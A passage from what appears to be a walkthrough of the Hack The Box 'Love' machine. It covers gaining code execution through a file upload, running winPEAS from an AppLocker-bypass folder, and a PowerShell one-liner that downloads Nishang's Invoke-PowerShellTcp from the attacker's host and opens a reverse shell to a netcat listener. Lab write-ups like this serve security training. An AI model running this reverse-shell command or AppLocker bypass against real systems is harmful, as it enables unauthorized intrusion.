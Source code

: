 ### RCE Using File Upload

All right, We now going to upload file to see if it appears at `http://love.htb/images/`.
![](Love_HTB_fileupload1.png)

It does. Let's grab a shell
### Obtaining Stable Shell

In this box, There were few things that I would like to highlight. 
1.  Upon uploading `winPEAS.ps1`, `winPEASany.exe`, `winPEAS.bat`, I was not able to execute it from `C:\ProgramData` or `C:\temp`
2. Using the [Ultimate AppLocker Bypass GitHub](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md) Repo, i found the list of directories that might allow me to execute `exe` file. So I pick up the following folder.
```
PS C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System> .\winPEASx64.exe
```

4. Now you can see that I have the stable shell. But getting stable shell was also one of the task for me so I ran the [Nishang PowerShell Collection](https://github.com/samratashok/nishang/tree/master) and run the following command in the User Shell when `nc -lvnp 5555` and `python -m http.server` was also running in a separate tab.
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.4/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 5555
```
